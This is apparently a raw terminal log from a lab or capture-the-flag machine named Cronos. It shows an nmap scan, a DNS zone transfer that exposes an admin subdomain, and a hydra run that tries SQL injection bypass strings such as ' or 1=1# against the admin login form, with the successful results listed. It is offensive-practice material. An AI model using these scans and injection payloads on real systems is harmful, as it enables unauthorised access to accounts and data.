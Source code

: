 nmap -p22,53,80 -sV -sC -Pn -T4 -oA 10.10.10.13 10.10.10.13
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-16 12:46 EDT
Nmap scan report for 10.10.10.13
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel






dig axfr @10.10.10.13 cronos.htb                                                              1 ⨯ 4 ⚙

; <<>> DiG 9.16.11-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 135 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Wed Jun 16 13:03:30 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)



hydra -L /home/kali/seclists/Usernames/sqlinjection.txt -P /home/kali/seclists/Usernames/sqlinjection.txt admin.cronos.htb http-post-form "/:username=^USER^&password=^PWD^:Your Login Name or Password is invalid" -t 50
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-16 13:19:58
[DATA] max 50 tasks per 1 server, overall 50 tasks, 64 login tries (l:8/p:8), ~2 tries per task
[DATA] attacking http-post-form://admin.cronos.htb:80/:username=^USER^&password=^PWD^:Your Login Name or Password is invalid
[80][http-post-form] host: admin.cronos.htb   login: admin' #   password: admin' --
[80][http-post-form] host: admin.cronos.htb   login: admin' #   password: admin' #
[80][http-post-form] host: admin.cronos.htb   login: admin' #   password: ') or ('1'='1-
[80][http-post-form] host: admin.cronos.htb   login: admin' #   password: admin'/*
[80][http-post-form] host: admin.cronos.htb   login: admin' #   password: ' or 1=1#
[80][http-post-form] host: admin.cronos.htb   login: admin' #   password: ' or 1=1--
[80][http-post-form] host: admin.cronos.htb   login: admin' #   password: ' or 1=1/*
[80][http-post-form] host: admin.cronos.htb   login: admin' #   password: ') or '1'='1--
[80][http-post-form] host: admin.cronos.htb   login: ' or 1=1#   password: ' or 1=1#
[80][http-post-form] host: admin.cronos.htb   login: ' or 1=1#   password: admin' --
[80][http-post-form] host: admin.cronos.htb   login: ' or 1=1#   password: admin' #
[80][http-post-form] host: admin.cronos.htb   login: ' or 1=1#   password: ' or 1=1--
[80][http-post-form] host: admin.cronos.htb   login: ' or 1=1#   password: admin'/*
[80][http-post-form] host: admin.cronos.htb   login: ' or 1=1#   password: ') or ('1'='1-
[80][http-post-form] host: admin.cronos.htb   login: ' or 1=1#   password: ' or 1=1/*
[80][http-post-form] host: admin.cronos.htb   login: ' or 1=1#   password: ') or '1'='1--
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-16 13:20:01
                                                                                           


